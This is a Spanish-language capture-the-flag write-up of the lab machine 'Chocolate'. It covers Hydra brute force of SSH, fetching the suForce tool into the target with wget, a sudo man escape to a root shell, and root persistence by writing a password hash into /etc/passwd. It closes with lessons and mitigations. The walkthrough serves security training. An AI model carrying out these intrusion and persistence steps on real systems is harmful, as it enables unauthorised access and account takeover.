## Información General

| Campo             | Detalle         |
| ----------------- | --------------- |
| Máquina           | Chocolate       |
| Plataforma        | TheHackersLabs  |
| Sistema Operativo | Linux (Debian)  |
| IP objetivo       | 192.168.241.176 |
| Dificultad        | Facil           |
| Fecha             | 04/09/2026      |

## Resumen del Ataque

El acceso inicial se logró tras descubrir mediante fuzzing de directorios una ruta oculta (`/web/`) con una pista textual que apuntaba al usuario `bob`, cuyas credenciales FTP se obtuvieron por fuerza bruta con Hydra. Una vez dentro por SSH, la enumeración local reveló un cron job ejecutando un script propio de `bob` y la existencia de un usuario adicional (`secretote`). Su contraseña se obtuvo por fuerza bruta SSH con la herramienta `suForce`. El usuario `secretote` tenía permiso `sudo` para ejecutar `/usr/bin/man`, lo que permitió escapar al pager y obtener una shell como root abusando de la técnica clásica de GTFOBins. Finalmente se estableció persistencia modificando `/etc/passwd` con un hash generado con `openssl passwd`.

## Técnicas Usadas

- Escaneo de puertos y servicios con Nmap (`-p-`, `-sC -sV`)
- Fuzzing de directorios web con `dirsearch`
- Fuerza bruta de credenciales FTP con Hydra + rockyou.txt
- Enumeración local de usuarios, permisos SUID, cron jobs y `sudo -l`
- Fuerza bruta de credenciales SSH con `suForce`
- Escalada de privilegios vía GTFOBins (`sudo man man` → shell)
- Verificación de AppArmor (`aa-status`)
- Persistencia mediante edición de `/etc/passwd` con hash generado por `openssl passwd`

## Desarrollo

### 1. Escaneo de puertos

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.176
```



### 2. Detección de versiones

```
nmap -p 21,22,80 -sC -sV -oN allports 192.168.241.176
```



### 3. Revisión inicial del servicio web

```
http://192.168.241.176/
```



Página por defecto de Apache, sin código fuente aprovechable.

### 4. Fuzzing de directorios

```
dirsearch -u http://192.168.241.176/ --exclude-status 403,404,500 -e php,txt,html
```



### 5. Contenido de /web/

```
http://192.168.241.176/web/
```



La pista apunta directamente al usuario `bob` y a un proceso de "limpieza" (posteriormente identificado como un cron job).

### 6. Fuerza bruta de credenciales SSH

```
hydra -l bob -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.176 -t 64
```



### 7. Acceso SSH como bob

```
ssh bob@192.168.241.176
```

```
bob@chocolate:~$ whoami
```



### 8. Intento de lectura de la flag de usuario

```
bob@chocolate:~$ cat user.txt 
```



```
bob@chocolate:~$ ls -la
```



`user.txt` pertenece a `root`, permiso `-r--------`: no accesible aún con el usuario actual.

### 9. Análisis del script de limpieza

```
bob@chocolate:~$ cat limpieza.sh 
```



Script legítimo de limpieza de temporales, sin vector de escalada evidente en su lógica.

### 10. Enumeración de usuarios del sistema

```
bob@chocolate:~$ grep bash /etc/passwd
```



Aparece el usuario `secretote`, no visto hasta ahora.

### 11. Comprobación de privilegios sudo

```
bob@chocolate:~$ sudo -l
```



### 12. Búsqueda de binarios SUID

```
bob@chocolate:~$ find / -perm -4000 -type f 2>/dev/null
```



Nada fuera de lo estándar.

### 13. Revisión de cron

```
bob@chocolate:~$ crontab -l
```



El cron ejecuta `limpieza.sh` cada minuto, pero al pertenecer y ser modificable solo por `bob` mismo, no aporta una vía de escalada adicional; queda descartado como vector.

### 14. Enumeración de directorios home

```
bob@chocolate:~$ cd ..
bob@chocolate:/home$ ls
```



### 15. Preparación de suForce para atacar a secretote

Se descarga la herramienta `suForce` para fuerza bruta local/SSH:

```
https://github.com/d4t4s3c/suForce.git
```

En el host atacante (Kali):

```
python3 -m http.server 8080
```

En Chocolate:

```
bob@chocolate:/home$ cd /tmp
```

```
bob@chocolate:/tmp$ wget http://192.168.241.128:8080/suForce
```

```
bob@chocolate:/tmp$ wget http://192.168.241.128:8080/rockyou.txt
```

### 16. Fuerza bruta contra secretote

```
bob@chocolate:/tmp$ bash suForce -u secretote -w rockyou.txt
```



### 17. Cambio a secretote

```
bob@chocolate:~$ su decretote
```

```
secretote@chocolate:/home/bob$ whoami
```



### 18. Privilegios sudo de secretote

```
secretote@chocolate:~$ sudo -l
```



### 19. Escalada de privilegios vía GTFOBins (man)

```
secretote@chocolate:~$ sudo /usr/bin/man man

!/bin/bash
```



```
root@chocolate:/home/secretote# whoami
```



```
root@chocolate:/home# cd /root
root@chocolate:~# cat root.txt 
```



### 21. Intento de acceso al home de bob como root

```
root@chocolate:~# ls -la /home/bob
```



Descartado inicialmente por permisos aparentes; se retoma más adelante tras confirmar acceso root real mediante persistencia.

### 22. Verificación de AppArmor

```
root@chocolate:~# aa-status 
```



El binario `man` tiene un perfil de AppArmor en modo _enforce_, pero no impidió el escape a shell mediante el pager.

### 23. Persistencia: creación de hash de contraseña

```
root@chocolate:/home/secretote# openssl passwd hackeado
$1$j1Wb05YF$v75f/0dnWthWRX2lr8iPy0
```



### 24. Edición de /etc/passwd para persistencia de root

Se elimina la `x` del campo de contraseña de `root` en `/etc/passwd` y se pega el hash generado:

```
root:$1$j1Wb05YF$v75f/0dnWthWRX2lr8iPy0:0:0:root:/root:/bin/bash
```



### 25. Verificación de la persistencia y acceso al home de bob

```
root@chocolate:/home/secretote# exit
q
```

```
secretote@chocolate:~$ su root
```

```
root@chocolate:/home/secretote# cd ..
root@chocolate:/home# cd bob
root@chocolate:/home/bob# ls
limpieza.sh  user.txt
root@chocolate:/home/bob# cat user.txt 
```



Con la nueva contraseña de root ya operativa, se accede sin restricciones al home de `bob` y se recupera la flag de usuario pendiente.

## Lecciones Aprendidas

- Un simple mensaje textual dejado en una ruta oculta (`/web/`) filtró información suficiente (nombre de usuario y contexto de "limpieza") para orientar todo el ataque inicial.
- Contraseñas débiles y reutilizadas (`chocolate`, `chocolate1`) en servicios SSH fueron el punto de entrada y el pivote entre usuarios; ambas cayeron ante wordlists comunes como rockyou.txt.
- Otorgar `sudo` sobre binarios aparentemente inofensivos como `/usr/bin/man` es peligroso: su pager (`less`) permite escapar a una shell, un vector documentado y muy conocido en GTFOBins.
- AppArmor estaba activo en modo _enforce_ sobre `man`, pero el perfil no cubrió el escape vía pager, demostrando que un perfil de sandboxing mal ajustado da una falsa sensación de seguridad.
- Un cron job ejecutado cada minuto no es automáticamente un vector de escalada: hay que verificar siempre permisos de escritura sobre el script y su ruta antes de asumir explotabilidad.

## Medidas de Mitigación

- Forzar políticas de contraseñas robustas y evitar reutilización entre servicios (FTP, SSH, sudo) para todos los usuarios del sistema.
- Retirar el permiso `sudo` sobre `/usr/bin/man` o, si es imprescindible, invocarlo con `MANPAGER=cat` o restringir el pager para evitar el escape a shell.
- Auditar y reforzar los perfiles de AppArmor para que realmente confinen los subprocesos lanzados por binarios con `sudo` (como `less`/`bash` desde `man`).
- No dejar mensajes ni pistas operativas (nombres de usuario, procesos internos) accesibles en rutas web sin autenticación.
- Monitorizar cambios en `/etc/passwd` y `/etc/shadow` mediante herramientas de integridad de archivos (AIDE, Tripwire) para detectar persistencia como la usada en este ataque.


